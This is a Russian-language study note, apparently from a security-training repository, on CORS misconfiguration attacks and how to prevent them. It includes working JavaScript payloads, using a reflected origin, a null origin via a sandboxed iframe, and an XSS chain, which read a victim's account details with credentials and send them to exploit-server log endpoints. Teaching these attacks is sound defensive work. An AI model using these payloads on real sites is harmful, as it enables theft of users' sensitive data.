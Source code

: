 # **CORS (client)**

> **Cross-origin resource sharing (CORS)** — это механизм браузера, который обеспечивает контролируемый доступ к ресурсам, расположенным за пределами заданного домена. Он расширяет и добавляет гибкости политике одного и того же источника (SOP). Однако он также предоставляет потенциал для cross-domain атак, если политика CORS веб-сайта плохо настроена и реализована. CORS не является защитой от cross-origin атак, таких как подделка межсайтовых запросов (CSRF).

> **Origin** — это адрес, с которого отправлен запрос. Он состоит из протокола, домена и порта. Его отправляют в заголовке HTTP-запроса.

> **Site** — он же «сайт» — это комбинация домена верхнего уровня и поддомена первого уровня. Проще говоря, корневой домен сайта.

> **Политика одного источника (SOP)** — это механизм безопасности веб-браузера, который направлен на предотвращение атак веб-сайтов друг на друга.

> Согласно SOP, скрипт с одного сайта может посылать POST- и GET-запросы на другой сайт. Но ответ он прочитать не сможет: у них разные origin, поэтому чтение ответа будет заблокировано на уровне браузера.
Остальные виды запросов — например, DELETE или PUT — SOP не пропустит в принципе. Они не дойдут до сервера.
SOP определяет права доступа на основе origin.

# **CORS и заголовки**

* **Access-Control-Allow-Origin**
	* Заголовок Access-Control-Allow-Origin включается в ответ одного веб-сайта на запрос, исходящий с другого веб-сайта, и определяет разрешенный источник запроса. Веб-браузер сравнивает Access-Control-Allow-Origin с источником запрашивающего веб-сайта и разрешает доступ к ответу, если они совпадают.
	* Спецификация Access-Control-Allow-Origin допускает несколько источников, или значение null, или подстановочный знак *. Однако ни один браузер не поддерживает несколько источников, и существуют ограничения на использование подстановочного знака *

* **Access-Control-Allow-Credentials**
  * Значение true - если запрашивающий веб-сайт использует JavaScript для объявления отправки файлов cookie с запросом, браузер разрешит запрашивающему веб-сайту прочитать ответ.


# Уязвимости, возникающие из-за проблем с конфигурацией CORS

### **Сгенерированный сервером заголовок ACAO из указанного клиентом заголовка Origin**

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

### **Ошибки при анализе заголовков источника**

* Приложение предоставляет доступ ко всем доменам, заканчивающимся на
normal-website.com
```
Можно получить доступ, зарегистрировав домен:
hackersnormal-website.com
```

* Приложение предоставляет доступ ко всем доменам, начинающимся с
normal-website.com
```
Можно получить доступ, используя домен:
normal-website.com.evil-user.net
```

### **Белый список пустого источника**

Спецификация заголовка Origin поддерживает значение null. Браузеры могут отправлять значение null в заголовке Origin в различных необычных ситуациях:

* Перенаправления между источниками.
* Запросы из сериализованных данных.
* Запросы с использованием протокола file:.
* Запросы между источниками в изолированной среде.
  
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','target-domain.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```
### **Эксплуатация XSS через доверительные отношения CORS**

* Если веб-сайт доверяет источнику, который уязвим для межсайтового скриптинга (XSS), можно использовать XSS для внедрения некоторого JavaScript, который использует CORS для получения конфиденциальной информации с сайта, который доверяет уязвимому приложению.

### **Взлом TLS с плохо настроенным CORS**

* Пользователь-жертва делает любой простой HTTP-запрос.

* Атакующий внедряет перенаправление на:
http://trusted-subdomain.vulnerable-website.com

* Браузер жертвы следует перенаправлению.

* Атакующий перехватывает простой HTTP-запрос и возвращает поддельный ответ, содержащий запрос CORS, на:
https://vulnerable-website.com

* Браузер жертвы отправляет запрос CORS, включая источник:
http://trusted-subdomain.vulnerable-website.com

* Приложение разрешает запрос, поскольку это источник из белого списка. Запрошенные конфиденциальные данные возвращаются в ответе.

* Поддельная страница атакующего может считывать конфиденциальные данные и передавать их на любой домен, находящийся под контролем атакующего.

Эта атака эффективна, даже если уязвимый веб-сайт в остальном надежно использует HTTPS, без конечной точки HTTP и все файлы cookie помечены как безопасные.
```
<script>
    document.location="http://victim-server.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://victim-server/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://my.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
### **Интрасети и CORS без учетных данных**

Большинство атак CORS полагаются на наличие заголовка ответа:
Access-Control-Allow-Credentials: true

Когда cайт является частью интрасети организации и расположен в частном пространстве IP-адресов, нет возможности получить доступ к нему напрямую. Внутренние веб-сайты часто имеют более низкий стандарт безопасности, чем внешние сайты, что позволяет находить уязвимости и получать дополнительный доступ. 

* Например, запрос кросс-источника в частной сети может быть следующим:

GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com

И сервер отвечает:
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

Сервер приложений доверяет запросам ресурсов из любого источника без учетных данных. 

Если пользователи в частном пространстве IP-адресов получают доступ к общедоступному Интернету, то атака на основе CORS может быть выполнена с внешнего сайта, который использует браузер жертвы в качестве прокси-сервера для доступа к ресурсам интрасети.

# Как предотвратить атаки на основе CORS

Уязвимости CORS возникают в первую очередь из-за неправильных конфигураций.

* Правильная настройка запросов кросс-источника
Если веб-ресурс содержит конфиденциальную информацию, источник должен быть правильно указан в заголовке Access-Control-Allow-Origin.
* Разрешать только доверенные сайты
Это может показаться очевидным, но источники, указанные в заголовке Access-Control-Allow-Origin, должны быть только доверенными сайтами. В частности, динамическое отражение источников из запросов кросс-источника без проверки легко эксплуатируется и его следует избегать.
* Избегайте внесения null в белый список
Избегайте использования заголовка Access-Control-Allow-Origin: null. Вызовы ресурсов кросс-источника из внутренних документов и изолированных запросов могут указывать на нулевой источник. Заголовки CORS должны быть правильно определены в отношении доверенных источников для частных и публичных серверов.
* Избегайте подстановочных знаков во внутренних сетях.
Избегайте использования подстановочных знаков во внутренних сетях. Доверия конфигурации сети для защиты внутренних ресурсов недостаточно, когда внутренние браузеры могут получать доступ к ненадежным внешним доменам.
* CORS не заменяет политики безопасности на стороне сервера
CORS определяет поведение браузера и никогда не заменяет защиту конфиденциальных данных на стороне сервера — злоумышленник может напрямую подделать запрос из любого доверенного источника. Поэтому веб-серверы должны продолжать применять защиту конфиденциальных данных, такую ​​как аутентификация и управление сеансами, в дополнение к правильно настроенному CORS.
